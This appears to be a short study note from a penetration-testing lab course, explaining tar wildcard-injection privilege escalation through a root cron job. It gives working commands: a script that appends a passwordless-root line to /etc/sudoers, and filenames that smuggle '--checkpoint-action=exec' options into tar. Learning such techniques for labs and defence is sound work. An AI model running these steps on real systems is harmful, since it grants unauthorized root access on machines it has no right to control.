# Wildcard Abuse

Wildcard abuse allows privilege escalation when shell interprets wildcard-based file names as command-line arguments to privileged programs (e.g., `tar` in cron jobs).

### Conditions for Exploitation:

* A wildcard (\*) is used in a command running with elevated privileges (e.g., in a cron job).
* The command (e.g., `tar`) supports arbitrary command execution through options like`--checkpoint-action`.
* The working directory is writable by an unprivileged user.

***

### Example Scenario:

**Cron job:**

```bash
*/1 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

**Exploit Steps:**

1. Create a script to elevate privileges:

```bash
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
```

1. Create malicious filenames:

```bash
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

1. Wait for the cron job to run.
2. Confirm privilege escalation:

```bash
sudo -l
sudo bash
```
